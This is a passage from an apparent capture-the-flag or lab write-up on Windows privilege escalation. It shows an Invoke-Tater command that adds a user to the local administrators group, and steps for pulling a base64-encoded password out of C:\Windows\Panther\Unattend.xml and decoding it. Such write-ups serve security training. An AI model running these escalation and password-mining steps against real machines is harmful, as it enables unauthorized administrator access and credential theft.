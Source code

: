 Finally, we run the Tater module bypassing the command **net localgroup administrators user /add** to add our user in administrators localgroup:
```
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

The execution and the output of the command ```net localgroup administrators``` to check if the exploit had success:
![Exploitation](/assets/img/posts/windows-privesc/task11_exploitation.png)




### <span style="color: var(--link-color);">[Task 12] - Password Mining Escalation - Configuration Files </span>
Many times the developers or the administrator put the password in the configuration files. Therefore, by searching words like "password" or "passwd" we can obtain the password used in the system. Also, these passwords are obfuscated in base64, so it is easy to retrieve the cleartext.

> Exploitation
> 
> Windows VM
> 
> 1. Open command prompt and type: notepad C:\Windows\Panther\Unattend.xml
> 2. Scroll down to the “<Password>” property and copy the base64 string that is confined between the “<Value>” tags underneath it.
> 
> Kali VM
> 
> 1. In a terminal, type: ```echo [copied base64] | base64 -d ```
> 2. Notice the cleartext password


##### Exploitation
In this task, the password is in the **C:\Windows\Panther\Unattend.xml** file and it is in base64.
